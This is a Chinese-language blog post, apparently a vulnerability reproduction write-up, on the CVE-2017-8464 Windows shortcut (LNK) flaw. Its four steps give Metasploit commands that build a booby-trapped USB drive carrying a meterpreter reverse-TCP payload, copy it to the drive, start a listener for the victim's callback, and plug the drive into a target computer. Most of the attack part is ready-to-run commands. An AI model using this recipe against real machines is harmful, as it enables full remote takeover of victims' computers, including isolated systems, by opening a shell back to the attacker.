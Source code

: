 ```yaml
---
title: CVE-2017-8464(震网三代)漏洞复现
tags: 
- CVE
- 漏洞
categories:
- 技术分享
top_img: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=500
cover: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=800
date: 2020-03-26 22:09:00
---
```


## 漏洞介绍

该漏洞的原理同2010年美国和以色列入侵并破坏伊朗核设施的震网行动中所使用的穿透核设施隔离网络的漏洞（CVE-2010-2568）非常类似，「它可以很容易的被黑客利用来攻击基础设施、存放关键资料的核心隔离系统等」。
「当存在漏洞的电脑被插上保存有漏洞文件的U盘时，不需要额外操作，漏洞攻击程序就可以执行并完全控制用户的电脑系统」。

## 使用工具

metasploit framework.

## 步骤一: 制作U盘木马
```
 use exploit/windows/fileformat/cve_2017_8464_lnk_rce
 set PAYLOAD windows/x64/meterpreter/reverse_tcp
 set LHOST [ip victim connects back to]
 exploit
```

## 步骤二: 拷贝木马到U盘
```
cp /root/.msf4/local/* [USB drive path]
```

## 步骤三: 开启监听,等待木马反弹
```
 use exploit/multi/handler
 set PAYLOAD windows/x64/meterpreter/reverse_tcp
 set LHOST [ip victim connects back to]
 exploit
```

## 步骤四: 利用

将U盘插入目标电脑,如果目标开启了外接设备自动播放,木马直接可运行.



> 参考: https://github.com/rapid7/metasploit-framework/pull/8767

<!-- https://blog.csdn.net/darkhq/article/details/79304558 -->